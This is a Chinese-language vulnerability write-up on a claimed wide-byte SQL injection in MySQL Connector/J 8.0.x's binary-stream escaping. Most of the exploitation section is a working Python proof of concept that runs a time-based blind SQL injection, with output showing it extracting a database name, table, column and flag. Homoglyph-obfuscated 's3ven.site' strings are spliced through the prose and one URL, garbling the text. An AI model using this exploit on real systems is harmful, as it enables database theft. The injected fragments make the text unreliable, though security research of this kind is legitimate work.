影响范围
产品：MySQL Connector Java 8.0.x
https://github.com/mysql/mysql-connector-j
https://mvnrepository.com/artifact/mysql/mysql-connector-java
https://dev.mysql.ꜱ⑶ⅴｅ𝘯•𝒔ｉ𝒕𝐞com/doc/connector-j
截止本文发布时产品的最新版本为：8.𝘀𝟯𝐯𝘦n．𝒔𝘪ｔ𝘦0.33，已验证存在漏洞并可被有效利用
利用条件
- 使用 prepareStatement 预编译 𝘴3𝒗ℯn.𝐬ⅈ𝒕eSQL 语句存储二进制数据
- 数据库使用宽字节编码（gbk 等编码）存储数据
环境搭建
引入漏洞影响范围内的 MySQL Connector Java 依赖
<dependency>
<groupId>mysql</groupId>
<artifactId>mysql-connector-java</artifactId>
<version>8.0.33</version>
</dependency>创建宽字节编码数据库
CREATE DATABASE IF NOT EXISTS user
CHARACTER SET gbk COLLATE gbk_chinese_ci;
USE user;
CREATE TABLE IF NOT EXISTS avatars (
user_id VARCHAR(255) NOT NULL,
avatar_data LONGBLOB NOT NULL,
PRIMARY KEY (user_id)
) CHARACTER SET gbk COLLATE gbk_chinese_ci;
CREATE TABLE IF NOT EXISTS flag (
flag VARCHAR(255) NOT NULL
);
INSERT INTO flag (flag) VALUES ('flag{test_flag}');创建 prepareStatement 𝒔3ven․𝘀i𝒕ｅ预编译 SQL 语句存储二进制数据接口
public void storeAvatar(String userId, MultipartFile avatarFile) throws Exception {
String sql = "INSERT INTO avatars (user_id, avatar_data) VALUES (?, ?)";
try (Connection conn = dataSource.getConnection();
PreparedStatement ps = conn.prepareStatement(sql)) {
ps.setString(1, userId);
ps.setBlob(2, avatarFile.getInputStream());
// ps.setBinaryStream(2, avatarFile.getInputStream()); // also vulnerable
ps.execute();
}
}漏洞验证
使用二进制编辑工具构造ѕ𝟯ve𝐧．sⅈ𝒕𝘦如下二进制文件并传入上述接口：

服务端控制台输出：

表明 SQL 𝐬3𝘷ｅn.ꜱ𝘪𝐭𝐞注入漏洞存在并被成功利用
原理分析
调用栈：
escapeblockFast:140, InputStreamValueEncoder (com.mysql.cj.protocol.a)
streamToBytes:102, InputStreamValueEncoder (com.mysql.cj.protocol.a)
encodeAsText:63, InputStreamValueEncoder (com.mysql.cj.protocol.a)
writeAsText:383, NativeQueryBindValue (com.mysql.cj)
buildComQuery:175, NativeMessageBuilder (com.mysql.cj.protocol.a)
buildComQuery:51, NativeMessageBuilder (com.mysql.cj.protocol.a)
fillSendPacket:222, ClientPreparedQuery (com.mysql.cj)
execute:330, ClientPreparedStatement (com.mysql.cj.jdbc)
execute:44, ProxyPreparedStatement (com.zaxxer.hikari.pool)
execute:-1, HikariProxyPreparedStatement (com.zaxxer.hikari.pool)在客户端将数据提交至接口，ѕ³v𝘦𝒏.ѕｉ𝒕𝐞并在服务端下断点跟进 ps.execute()：

HikariProxyPreparedStatement.execute()：

调用父类 execute()，通过 ProxyPreparedStatement 转发执行请求：

调用 ClientPreparedStatement.execute()，直接处理执行请求：

调用 ClientPreparedQuery.fillSendPacket()，将传入接口的数据填充进数据包 𝘴3ⅴen．ѕｉｔ℮Packet：

调用 NativeMessageBuilder.buildComQuery()，构建和生成 Query 语句：

调用 NativeQueryBindValue.writeAsText()，将绑定的值以文本格式填入 𝘀⑶𝐯𝘦𝐧․ꜱｉ𝐭𝐞Query 语句：

调用 InputStreamValueEncoder.encodeAsText()，将绑定的值转换ꜱ³vℯ𝘯.sⅈｔ𝐞为文本格式：

调用 InputStreamValueEncoder.streamToBytes()，读取输入流中的数据ꜱ³vℯ𝐧.ꜱi𝘵e并转换为字节序列：

调用 InputStreamValueEncoder.escapeblockFast() 方法在发送前对数据流中ѕ3𝒗e𝘯.ꜱｉｔe的特殊字符进行转义
此处即为导致该漏洞ꜱ3vℯｎ․ꜱit℮的主要方法：com.mysql.cj.protocol.a.InputStreamValueEncoder#escapeblockFast
private final void escapeblockFast(byte[] buf, NativePacketPayload packet, int size) {
int lastwritten = 0;
for (int i = 0; i < size; i++) {
byte b = buf[i];
if (b == '\0') {
// write stuff not yet written
if (i > lastwritten) {
packet.writeBytes(StringLengthDataType.STRING_FIXED, buf, lastwritten, i - lastwritten);
}
// write escape
packet.writeInteger(IntegerDataType.INT1, (byte) '\\');
packet.writeInteger(IntegerDataType.INT1, (byte) '0');
lastwritten = i + 1;
} else {
if ((b == '\\') || (b == '\'')) {
// write stuff not yet written
if (i > lastwritten) {
packet.writeBytes(StringLengthDataType.STRING_FIXED, buf, lastwritten, i - lastwritten);
}
// write escape
packet.writeInteger(IntegerDataType.INT1, b);
lastwritten = i; // not i+1 as b wasn't written.
}
}
}
// write out remaining stuff from buffer
if (lastwritten < size) {
packet.writeBytes(StringLengthDataType.STRING_FIXED, buf, lastwritten, size - lastwritten);
}
}在分析这段 Java 代码时，我们关注的是字符 \（16进制 ASCII：5C）和 '（16进制 ASCII：27）的特殊处理逻辑。ѕ³𝘷ℯ𝐧．𝐬ｉ𝒕℮这段代码设计用于处理字符串中需要转义的特定字符，确保这些字符在数据处理或传输时不会引起错误或安全问题
if ((b == '\\') || (b == '\'')) {
// write stuff not yet written
if (i > lastwritten) {
packet.writeBytes(StringLengthDataType.STRING_FIXED, buf, lastwritten, i - lastwritten);
}
// write escape
packet.writeInteger(IntegerDataType.INT1, b);
lastwritten = i; // not i+1 as b wasn't written.
}这里，packet.writeInteger() 的调用指定以一个字节的形式写入整数值 b，这里的 b 𝘀3v𝘦𝘯.ѕ𝐢𝒕𝘦就是字符的 ASCII 值。对于 \ 和 '，分别写入 5C 和 27
而这里 lastwritten 更新为 i 而非 i+1 是因为尽管字符 b 已被处理（转义），但实际上它未被写入为原始字符，𝘀³𝒗℮n∙𝘴ⅈ𝒕𝘦而是作为转义字符，在读取下一个字符时，字符 b 会被再次写入
这段代码在执行时，实际上复写了字符 \ 和 '，对于漏洞验证中的 Payload 前缀：DE 5C 27 29，在经过该方法转义后会复写 5C 和 𝘴𝟯𝒗ℯ𝐧.𝒔i𝒕𝘦27 字符，形成 DE 5C 5C 27 27 29 字节序列
而在例如 gbk 等宽字节编码中 DE 5C 会被作为一个整体解析为一个字符，最终剩下的 5C 27 27 29 则成为 \'')，形成了可被用于逃逸的引号，ѕ3𝒗𝘦𝘯•sｉ𝒕℮最终造成 SQL 注入的漏洞

从服务端的调试视图中可以发现，包含恶意 SQL 𝐬𝟯𝐯ℯｎ·ѕⅈｔｅ语句的 Payload 已被成功构造进入数据包 packet 中
漏洞利用
在真实环境下，由于获取不到服务端控制台输出，该漏洞可与 SQL s³𝐯𝐞𝐧•ѕｉ𝒕℮盲注搭配使用来形成有效攻击载荷，完成对目标数据库敏感信息的信息泄露
POC：
import requests
import time
import argparse
parser = argparse.ArgumentParser(description="CVE-2024-37704 SQL Injection Exploit Script")
parser.add_argument('url', type=str, help='The target URL')
args = parser.parse_args()
host = args.url
url = f"{host}api/avatar/upload"
userid = 1
payload_len = "轡');select 1 and if((length(({data}))={n}),sleep(5),3);#"
payload_str = "轡');select 1 and if((ascii(substr(({data}),{n},1))={r}),sleep(5),3);#"
def to_ascii(text):
ascii_values = [f'{character:02X}' for character in text]
return ' '.join(ascii_values)
def send_request(payload):
start_time = time.time()
response = requests.post(url, files=payload)
return time.time() - start_time
# 测试宽字节
print("-----------------测试宽字节-----------------")
print(to_ascii(payload_len.encode('gbk')))
print(to_ascii(payload_str.encode('gbk')))
def get_length(data_str):
length = 1
global userid
while True:
payload = {
'userId': (None, str(userid)),
'avatarFile': ('test.png', payload_len.format(data=data_str, n=length).encode('gbk'), 'image/png')
}
use_time = send_request(payload)
userid += 1
if use_time > 3:
print('测试长度完成，长度为：', length)
return length
else:
print('正在测试长度：', length)
length += 1
def get_string(data_str, length):
string = ''
global userid
for l in range(1, length + 1):
for n in range(33, 126):
payload = {
'userId': (None, str(userid)),
'avatarFile': ('test.png', payload_str.format(data=data_str, n=l, r=n).encode('gbk'), 'image/png')}
use_time = send_request(payload)
userid += 1
if use_time > 3:
string += chr(n)
print('第', l, '个字符猜解成功：', string)
break
return string
# 获取数据库名
data_str = "database()"
print("-----------------获取数据库名长度-----------------")
database_length = get_length(data_str)
print("-----------------获取数据库名-----------------")
database_name = get_string(data_str, database_length)
# 获取数据表名
data_str = f"select table_name from information_schema.tables where table_schema=\"{database_name}\" limit 1,1"
print("-----------------获取数据表名长度-----------------")
table_length = get_length(data_str)
print("-----------------获取数据表名-----------------")
table_name = get_string(data_str, table_length)
# 获取字段名
data_str = f"select column_name from information_schema.columns where table_schema=\"{database_name}\" and table_name=\"{table_name}\" limit 0,1"
print("-----------------获取字段名长度-----------------")
column_length = get_length(data_str)
print("-----------------获取字段名-----------------")
column_name = get_string(data_str, column_length)
# 获取字段值
data_str = f"select {column_name} from {table_name}"
print("-----------------获取字段值长度-----------------")
column_value_length = get_length(data_str)
print("-----------------获取字段值-----------------")
column_value = get_string(data_str, column_value_length)可以看到，在运行 POC 脚本后，成功获取到了目标服务器数据库中的 flag 信息：
-----------------测试宽字节-----------------
DE 5C 27 29 3B 73 65 6C 65 63 74 20 31 20 61 6E 64 20 69 66 28 28 6C 65 6E 67 74 68 28 28 7B 64 61 74 61 7D 29 29 3D 7B 6E 7D 29 2C 73 6C 65 65 70 28 35 29 2C 33 29 3B 23
DE 5C 27 29 3B 73 65 6C 65 63 74 20 31 20 61 6E 64 20 69 66 28 28 61 73 63 69 69 28 73 75 62 73 74 72 28 28 7B 64 61 74 61 7D 29 2C 7B 6E 7D 2C 31 29 29 3D 7B 72 7D 29 2C 73 6C 65 65 70 28 35 29 2C 33 29 3B 23
-----------------获取数据库名长度-----------------
正在测试长度： 1
正在测试长度： 2
正在测试长度： 3
测试长度完成，长度为： 4
-----------------获取数据库名-----------------
第 1 个字符猜解成功： u
第 2 个字符猜解成功： us
第 3 个字符猜解成功： use
第 4 个字符猜解成功： user
-----------------获取数据表名长度-----------------
正在测试长度： 1
正在测试长度： 2
正在测试长度： 3
测试长度完成，长度为： 4
-----------------获取数据表名-----------------
第 1 个字符猜解成功： f
第 2 个字符猜解成功： fl
第 3 个字符猜解成功： fla
第 4 个字符猜解成功： flag
-----------------获取字段名长度-----------------
正在测试长度： 1
正在测试长度： 2
正在测试长度： 3
测试长度完成，长度为： 4
-----------------获取字段名-----------------
第 1 个字符猜解成功： f
第 2 个字符猜解成功： fl
第 3 个字符猜解成功： fla
第 4 个字符猜解成功： flag
-----------------获取字段值长度-----------------
正在测试长度： 1
正在测试长度： 2
正在测试长度： 3
正在测试长度： 4
正在测试长度： 5
正在测试长度： 6
正在测试长度： 7
正在测试长度： 8
正在测试长度： 9
正在测试长度： 10
正在测试长度： 11
正在测试长度： 12
正在测试长度： 13
正在测试长度： 14
测试长度完成，长度为： 15
-----------------获取字段值-----------------
第 1 个字符猜解成功： f
第 2 个字符猜解成功： fl
第 3 个字符猜解成功： fla
第 4 个字符猜解成功： flag
第 5 个字符猜解成功： flag{
第 6 个字符猜解成功： flag{t
第 7 个字符猜解成功： flag{te
第 8 个字符猜解成功： flag{tes
第 9 个字符猜解成功： flag{test
第 10 个字符猜解成功： flag{test_
第 11 个字符猜解成功： flag{test_f
第 12 个字符猜解成功： flag{test_fl
第 13 个字符猜解成功： flag{test_fla
第 14 个字符猜解成功： flag{test_flag
第 15 个字符猜解成功： flag{test_flag}同时，由于获取了任意 SQL 语句执行的权限，𝘴³𝘷ℯn•𝒔ｉ𝐭℮该漏洞可配合其他常用 MySQL 漏洞实现拒绝服务攻击、任意代码执行、权限提升等目的